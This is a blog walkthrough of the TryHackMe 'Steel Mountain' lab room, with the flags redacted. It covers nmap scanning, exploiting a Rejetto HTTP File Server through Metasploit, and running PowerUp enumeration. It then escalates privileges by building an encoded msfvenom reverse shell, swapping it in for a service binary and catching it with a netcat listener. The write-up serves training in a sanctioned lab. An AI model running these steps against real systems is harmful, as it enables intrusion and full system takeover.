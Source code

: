 ```yaml
---
title: "TryHackMe-SteelMountain" 
layout: post
date: 04-28-2020
subtitle: Walkthrough
tags: [Windows, Metasploit, Privilege Escaltion]
image: pictures/Steel_Mountain/steelmountain.jpg
category: blog

---
```



Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

You can access this room here: [SteelMountain](https://tryhackme.com/room/steelmountain)

__You will need a subscription to complete this box__
## Table of Contents

- [Task 1: Introduction](#introduction)
- [Task 2: Initial Access](#initial-access)
- [Task 3: Privilege Escalation](#privilege-escalation)
<!--- [Task 4: Access and Escalation Without Metasploit](#access-and-escalation-without-metasploit) --> 


### Introduction

**Let's Begin!**


**Question 1: Deploy the machine. Who is the employee of the month?**
  
Deploy the box and run a nmap scan!

~~~
nmap -sC -sV <boxip> 
~~~

 ![nmap_scan](/pictures/Steel_Mountain/nmap_scan.png)

We have two http services running, let's take a look at those websites!  Access the web service running on port 80
~~~
http://boxip:80
~~~

Right clik the image and click on image info. The name of the image will be our first flag! 
![alt text](/pictures/Steel_Mountain/Flag1.png)


{: .box-success}
**Flag 1 :** XXX XXXXXX

### Initial Access

**Question 1: Scan the machine with nmap. What is the other port running a web server on?**
 
  Nmap already found what port the other web server was running.  
 
 {: .box-success}
**Flag :**XXXX

**Question 2: Take a look at the other web server. What file server is running?**

Access the webserver on port 8080 
~~~
http://boxip:8080
~~~

![alt text](/pictures/Steel_Mountain/port8080.png)

If you look at the bottom left hand corner we see the file server version. If we click on the blue link it takes us to "Rejetto.com". Put two and two together and you now have your answer for the next flag! 

{: .box-success}
**Flag 2.2 :** XXXXXXX XXXX XXXX XXXXXX

**Question 3: What is the CVE number to exploit this file server?**

There are a lot of different ways to obtain the answer to this question, but I chose the quick route and googled 'Rejetto HTTP File Server Exploit'. This leads me to websites from Exploitdb and rapid7! Pick one and scroll down and you will find the CVE number. 

{: .box-success}
**Flag 2.3 :** XXXX-XXXX
 
> Question 4: Use Metasploit to get an initial shell. What is the user flag?
 
 Since rapid7 is the creator of Metasploit, it is a good bet that our CVE will be on metasploit. Let's run metasploit and exploit this box. 
 ~~~
 - msfconsole 
 - search rejetto 
 - use 0
 - set RHOST <boxip> 
 - set RPORT <8080>
 - set srvhost <vpn-ip>
 - run
~~~

 ![meterpreter shell](/pictures/Steel_Mountain/meterpreter1.png)
 
 It looks like that exploit worked! We now have a meterpreter shell on the vulnerable machine. Type 'pwd' to find out what directory you are in. 

 Navigate to bill's 'Desktop' directory where you will find the user.txt file. Read the file and you will have your flag! 


![flag2.4](/pictures/Steel_Mountain/Flag2_3.png)


{: .box-success}
**Flag2.4 :** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



### Privilege Escalation


  Now that we have a shell on this machine it is time to enumerate it! This room introduces us to PowerUp, a powershell script that is designed "to evaluate a Windows machine and determine any abnormalities". 

  You can download it from here [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) , or you can _open another terminal_ and run this command. 

~~~
curl https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 --output PowerUp.ps1

~~~

This will output a copy of the file to your current directory. Switch back to the terminal that has your meterpreter shell running and upload the file. Once you have uploaded it, you will need to load up powershell and run the commands given. 

 
 ![meterpreter upload](/pictures/Steel_Mountain/meterpreterupload.png)
 
 ```
  ps> . . \PowerUp.ps1
  ps> Invoke-AllChecks
 ```

The enumeration file should start to run and you should get back some information on what service is running on this machine. Locate the services that have 'CanRestart' option set equal to 'True'. This will be your answer for the next flag! 

![flag3.2](/pictures/Steel_Mountain/psscan.png)


{: .box-success}
**Flag :** XXXXXXXXXXXXXXXXXXX 


**Question 3: Use msfvenom to generate a reverse shell as an Windows executable. 
Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.**


Let's give it a shot! First lets create a reverse shell using msfvenom and output it to a file witht the same name. Open up a new terminal and enter the following command:

~~~
msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
~~~

Once that is done, switch back to your exploited machine and ctrl-c out of powershell and upload the malicious replicate file. 

![msfvenom](/pictures/Steel_Mountain/msfvenom.png)

After the uploading is complete, drop into a shell by entering 'shell'. Once you have a shell, enter this command to stop the service. 

~~~
 > sc stop AdvancedSystemCareService9 
~~~

Perfect! We have stopped the service, now we need to switch it out with our malicious one. 

![Malware](/pictures/Steel_Mountain/copyASC.png)

We now have to open a new terminal, start a listening session on port 4443 and then start the service. **Create a listening session first!**

~~~
- New terminal: nc -nlvp 4443
- Exploited Terminal: sc start AdvancedSystemCareService9
 ~~~

Boom! You will see a shell pop up on your listening terminal and you will have root access to the machine!

{: .box-success}
**No Answer Needed** 

On your new terminal, navigate to Administrator's Desktop and print out root.txt

![Final Flag](/pictures/Steel_Mountain/Final_flag.png)


**Question #4: What is the root flag?**


{: .box-success}
**FLAG :**XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



 



<!--
### Access and Escalation Without Metasploit

 The final task walks you through how to get access and escalation withoug using metasploit. 
 I won't walk you through but here is the answer to question 2:

{: .box-success}
 *powershell -c "Get-Service"*
{: .box-note}
*Note:** This is a notification box.### Warning {: .box-warning *Warning:** This is a warning box.### Error<!-- {: .box-error}**Error:** This is an error box. -->




